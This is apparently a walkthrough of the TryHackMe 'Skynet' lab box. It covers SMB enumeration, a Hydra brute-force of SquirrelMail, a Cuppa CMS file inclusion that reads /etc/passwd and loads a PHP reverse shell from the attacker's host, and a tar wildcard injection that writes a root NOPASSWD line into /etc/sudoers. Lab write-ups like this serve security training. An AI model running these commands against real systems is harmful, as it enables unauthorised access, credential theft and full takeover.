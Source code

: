 Skynet TryHackMe Walkthrough

Introduction
This was an easy Linux box that involved accessing an open SMB share containing a list of credentials that could be used to bruteforce a SquirrelMail web application, finding SMB credentials on the application to access a new share which revealed a second web application, and exploiting a remote file inclusion vulnerability in Cuppa CMS to gain remote access. Privilege escalation was possible due to a misconfigured cron job running as root and using a wildcard with the tar command.

Enumeration
The first thing to do is to run a TCP Nmap scan against the 1000 most common ports, and using the following flags:

-sC to run default scripts
-sV to enumerate applications versions
-Pn to skip the host discovery phase, as some hosts will not respond to ping requests
-oA to save the output in all formats available
![image](https://user-images.githubusercontent.com/71508714/169668306-429f63c0-fa69-4b4d-b5fc-68f43121ed3d.png)

We can see that we have several open ports on this machine:

Port 22 — SSH, not worth to check it for now
Port 80 — A web page running a search website
Port 110 — POP3, prolly a mail server
Port 143 — IMAP, prolly also part of the mail server
Port 139/445 — SMB ports, this is a good starting point
![image](https://user-images.githubusercontent.com/71508714/169668382-80739b1e-7dba-48a7-a0e0-b8f03a9ca885.png)

By checking the directories, we found the login page of the mail server:
![image](https://user-images.githubusercontent.com/71508714/169668447-26c8ef56-04b8-42e5-9d00-78b46641cb70.png)

Tried hydra & sqlinject but nothing have happen.

Enumerating SMB:

SMB eumeration can be done by nmap scripts also.
![image](https://user-images.githubusercontent.com/71508714/169668548-7e0527ee-b3ab-4c22-be7d-b66797b8762d.png)
![image](https://user-images.githubusercontent.com/71508714/169668583-2bbdc350-322c-4c55-b45e-686c8f278f21.png)

Using the SMBClient tool to list the open shares on the host:

![image](https://user-images.githubusercontent.com/71508714/169668655-ef9020a5-b3be-4e4a-bfe3-b5f929217871.png)
Connecting to the “anonymous” share, this contains a text file and a “logs” folder, containing three log files. Downloading all of the files locally to furhter examine them:

![image](https://user-images.githubusercontent.com/71508714/169668686-0af707e1-bb8b-4f09-a1cc-2ee066fb2a14.png)

The “attention.txt” file contains a note that mentions a password change in the organization, whereas the logs contain what looks like a word list of some sort, potentially from an authentication log:

![image](https://user-images.githubusercontent.com/71508714/169668742-3ff023a7-eddf-4850-a3bb-f4be6018b9c3.png)

While ‘log2.txt’ and ‘log3.txt’ are empty, ‘log1.txt’ appears to have some kind of list of usernames or passwords. Also the milesdyson share is not accessible, but we can try to use the name on the mail server and the list as a password list.

We can use something like Hydra to try to brute force it or burp intruder. First, let’s save the list in a file that we can use. Second we need to make an attempt to login and get the POST url:

![image](https://user-images.githubusercontent.com/71508714/169669138-f9b35b7d-be53-49ef-8714-23a72e0de60f.png)

After a couple of tries, we finally get a working command. Now let’s try to use Hydra to brute force it using the provided list:

hydra -l milesdyson -P log1.txt 10.10.174.36 -V http-form-post ‘/squirrelmail/src/redirect.php:login_username=milesdyson&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown User or password incorrect.’

And after running, we get a hit:

![image](https://user-images.githubusercontent.com/71508714/169669191-9e6a5984-9d6a-41b6-a440-764b05724701.png)

So let’s try to login with the newly found credentials:

![image](https://user-images.githubusercontent.com/71508714/169669217-95957a31-0a3a-403e-92f8-f2b59655215f.png)

Now we can answer the first question in the task “What is Miles password for his emails?” with the password found in ‘log1.txt’.

By checking the emails, we found an email regarding a reset password (remember the previous attention.txt file?):

![image](https://user-images.githubusercontent.com/71508714/169669261-e3b2c913-9ed5-4a27-9d81-e37b4e16f289.png)

Ok, heading back to the smb shares, we can now try to access the milesdyson share using the username milesdyson and the new password:

![image](https://user-images.githubusercontent.com/71508714/169669298-882b6dd1-1446-4b33-87ec-dd05fd376662.png)

![image](https://user-images.githubusercontent.com/71508714/169669334-e95091dd-7d6f-46aa-a4a1-e667e6ac1671.png)

![image](https://user-images.githubusercontent.com/71508714/169669363-eef16619-a937-4a7e-8ce9-41a0133fe09e.png)

Ok we found a bunch of .pdf files and a ‘notes’ directory. Inside there is a bunch of .md files and a text file called ‘important.txt’. Let’s check that file:

![image](https://user-images.githubusercontent.com/71508714/169669395-65eabb52-d0e7-4ad7-b815-be2aa1a2c601.png)

Interesting! We have some sort of directory in the file. Let’s try to access that on the main web page:

![image](https://user-images.githubusercontent.com/71508714/169669417-d814f201-f368-44e8-9c0e-bb94d6341c81.png)

Ok, we can now answer the question “What is the hidden directory?” with the value of the new found directory.

Let’s to do another Gobuster search in the new found webpage, to see if we get some new results:

![image](https://user-images.githubusercontent.com/71508714/169669444-48cee6e7-7141-4c91-8694-56cbc483012d.png)


Checking the new directory, we are presented with a login page for a Cuppa CMS platform:

![image](https://user-images.githubusercontent.com/71508714/169669489-7009e72f-4ac7-4445-b5e7-e721be811134.png)

Not having a clear attack vector for now, the best choice is to try to check if the said version of the CMS has some known vulnerabilities that we can take advantage of.

While searching, we manage to find the oficial documentation of the CMS here, which mentions that the default credentials are ‘admin’:’admin’, but those do not work.

Searching for RFI vulnerabilities affecting Cuppa CMS leads to https://www.exploit-db.com/exploits/25971.:

![image](https://user-images.githubusercontent.com/71508714/169669532-b8d86694-812c-4ce5-beb4-0b1c30fab592.png)

After reading the exploit and tweaking a little bit of the url, we call the following URL:

http://skynet/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
And list the /etc/passwd file, so the exploit is working:

![image](https://user-images.githubusercontent.com/71508714/169669563-b7b11be9-fe4d-4e51-8769-9d79b73090fe.png)


So Local File Inclusion is possible, but in order to get a foothold on the server, we need to use a Remote File Inclusion attack. The main difference is that in the Local File Inclusion, local files are used while in the Remote File Inclusion, as the name implies, remote files are used instead, allowing us to pass an url with a script to be executed.

Let’s first create a small one line reverse shell file, using the following code, replacing IP and Port with your IP address and a Port to be used in our reverse shell listener:

Copying the php reverseshell from https://pentestmonkey.net/

![image](https://user-images.githubusercontent.com/71508714/169669716-e3da5738-8220-40a6-a7cc-74cf5a0011a3.png)

After this, let’s set up a netcat listener on the Port defined .

![image](https://user-images.githubusercontent.com/71508714/169669756-fdc4d956-fb31-4d33-8602-505759f6629e.png)


Now we need to put an http server up in the air, on the directory where we have the reverse shell code, using Python:

sudo Python3 -m http.server 80

![image](https://user-images.githubusercontent.com/71508714/169669752-3e654633-293f-4f24-a8d7-8c6637332649.png)

Now, open the following URL in your browser: http://10.10.67.236/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.8.50.72:8000/php-reverse-shell.php. You should have a reverse shell:

![image](https://user-images.githubusercontent.com/71508714/169669792-f7c3feb6-e188-4cbd-af20-7265658774fa.png)

Privilege Escalation

So my usual steps into enumerate linux boxes usually are to check for sudo permissions, crontab jobs running and to get a linpeas script and run an automated enumeration in order to look for clues.

Since we have a dumb shell, we need to upgrade it to a interactive tty shell, using the following Python command:

python -c ‘import pty;pty.spawn(“/bin/bash”)’

We can check for the sudo permissions with the sudo -l command:

![image](https://user-images.githubusercontent.com/71508714/169669821-f9513c05-676a-4705-a902-7600a2914d8a.png)

So we don’t have permissions to check if we can run something as sudo. Let’s try to enumerate crontab instead:

![image](https://user-images.githubusercontent.com/71508714/169669839-52deec70-ef67-4e11-8868-2741b5c98057.png)

Ok, we can see that there is some backup.sh running every minute. Let’s check the permissions on that folder or script:

![image](https://user-images.githubusercontent.com/71508714/169669856-5268ab18-203a-4516-af2a-e3c179c2b896.png)


![image](https://user-images.githubusercontent.com/71508714/169669873-bca0ab95-08d9-4f65-9853-f5b3144793e7.png)

o as we can see, this script runs as root, changes directory to ‘/var/www/html’ and then uses tar to compress the content of the directory into a file called backup.tgz at ‘/home/milesdyson/backups’.

We could check for a possible attack vector, in the gtfobins page but since only the script is allowed to run tar as root, there is not much we can use from there. After a couple of searches, I’ve found a potential Linux privilege escalation using wildcard injection. Basically, tar allows the usage of 2 options that can be used for poisoning, in order to force the binary to execute unintended actions:

checkpoint[=NUMBER] — this option displays progress messages every NUMBERth record (default value is 10)
checkpoint-action=ACTION — this option executes said ACTION on each checkpoint
By forcing tar to use these options, we can use a specific action with the permissions of the user that is running the command, which in our case is root.

So, in order to take advantage of this, let’s create a script to add our user to sudoers and gain root while on the machine:

echo ‘echo “www-data ALL=(root) NOPASSWD: ALL” >> /etc/sudoers’ > sudo.sh
touch "/var/www/html/--checkpoint-action=exec=sh sudo.sh"
touch "/var/www/html/--checkpoint=1"

After running all three commands in our /var/www/html, we should have 3 new files laying around inside the directory that is getting backed up:

![image](https://user-images.githubusercontent.com/71508714/169669902-6a192e41-9a4a-4a4e-9c3a-124a6d9196d3.png)

Now, after a minute, the cronjob should have been executed, and we can get our root access by just using sudo su:

![image](https://user-images.githubusercontent.com/71508714/169669920-d3b2cac6-4f12-492c-a943-0bf64c12cf4a.png)








